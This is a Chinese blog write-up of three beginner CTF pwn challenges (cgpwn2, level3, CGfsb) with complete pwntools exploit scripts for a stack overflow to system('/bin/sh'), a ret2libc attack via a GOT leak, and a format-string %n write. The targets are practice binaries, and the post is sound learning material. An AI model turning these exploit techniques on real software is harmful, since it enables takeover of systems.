 ```yaml
---
title: 「攻防世界」Pwn - cgpwn2|level3|CGfsb WriteUps
date: 2021-12-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```

## cgpwn2 | level3 | CGfsb

### **碎碎念**

因为这半个月事情很多（摆邮major/APEX/期中考），加上新环境一直有问题，所以基本上没有什么关于CTF的内容:I但是其他的事情也基本没什么进展

马上又要打比赛了，想着临时抱佛jio冲一哈，先把这几个简单的栈相关的题目搞一下:&lt;

原本想要每题都做一个详尽的WP水文章来着，但是好像比较基础就合在一起了:>

<!--truncate-->

### **cgpwn2**

直接拖进checksec/ida

![https://cdn.ova.moe/img/image-20211112104246870.png](https://cdn.ova.moe/img/image-20211112104246870.png)

![https://cdn.ova.moe/img/image-20211112105108027.png](https://cdn.ova.moe/img/image-20211112105108027.png)

![https://cdn.ova.moe/img/image-20211112112126099.png](https://cdn.ova.moe/img/image-20211112112126099.png)

这题意图就很明显了：在第一个gets中输入指令（"/bin/sh"），第二个gets中溢出然后调用system函数

> system + 返回地址 + 指令

于是找出偏移和地址，轻松写出exp>

```
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

拿到flag`cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

看题目介绍应该是ret2libc的题，这是我第一题libc泄露，所以着重讲讲

> 知识点：CTF-WIKI

下载下来是一个gz压缩文件，解压出来是一个so文件和elf文件

（结果我tar解压的时候不知道为什么名字不能自动补全，手搓了32位md5码的文件名了属于是）

按照惯例checksec看一下(checksec也不知道为什么软连接搞不上，我要吐力)

![https://cdn.ova.moe/img/image-20211112114145579.png](https://cdn.ova.moe/img/image-20211112114145579.png)

![https://cdn.ova.moe/img/image-20211112140131570.png](https://cdn.ova.moe/img/image-20211112140131570.png)

总之先上EXP:

```
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

这里有个很奇怪的点，我写exp的时候用的是Python3.10.0，但是本地调试的时候这个exploit是过不了的，换成py2又可以过

关键是我只更改了`bin_sh_libc`这里的代码，py2用的是`generator.next()`，而py3用的是`next(generator)`，但是结果是一样的。

我把最后的payload打印出来对比也没有任何区别（肉眼上）。但是Py3远程又是能过的^ ^，不知道什么高手情况。

#### **分析**

整个程序非常简单，也只有一个`vulnerable_function`可以利用，但是程序中并没有利用到system函数，这里就自然的引出了GOT表泄露。

得益于libc的延迟绑定机制，我们如果知道libc中某个函数的地址，就可以通过其在程序中的地址与libc中地址的差算出偏移。又由于libc.so动态链接库中的函数之间相对偏移是固定的，得到了偏移，再通过libc中我们想要的函数的地址，就可以确定其函数在程序当中的地址。

```
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

首先看payload1，先填充buf不多说，覆盖返回地址这里值得注意：

我们先将返回地址覆盖为write_plt，再将func作为write函数的返回地址，后面再填write的三个参数，这样做的话在write结束后就又会跳转会`vulnerable_function()`这里，便可以截到write的GOT地址

接下来就是算偏移和找地址，不多赘述。

此时程序又一次运行到了`read()`函数这里，那直接轻松覆盖一个system函数上去就好了:>

### **CGfsb**

![https://cdn.ova.moe/img/image-20211112141233440.png](https://cdn.ova.moe/img/image-20211112141233440.png)

一眼FormatString

需要使得`0x0804A068`这个地址的变量`pwnme`为8

先找到格式化字符串的参数在第几个

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://cdn.ova.moe/img/image-20211112142129570.png](https://cdn.ova.moe/img/image-20211112142129570.png)

可以看到41414141在第十个参数的位置，那么我们只需要把pwnme的地址写入，然后通过%n把8写入它就好了

最后的exp:

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

至此，宣告PWN的新手区AK（不容易啊🥵）